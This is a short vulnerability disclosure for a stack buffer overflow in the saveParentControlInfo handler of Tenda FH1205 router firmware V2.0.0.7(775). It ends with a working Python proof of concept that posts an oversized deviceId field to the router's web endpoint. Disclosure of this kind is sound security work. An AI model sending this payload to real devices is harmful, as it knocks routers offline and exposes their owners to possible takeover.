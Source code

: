 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability. It reads in a user-provided parameter `deviceId`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240319223210791](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223210791.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240319223227916](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223227916.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"deviceId": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320105838954](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320105838954.png)

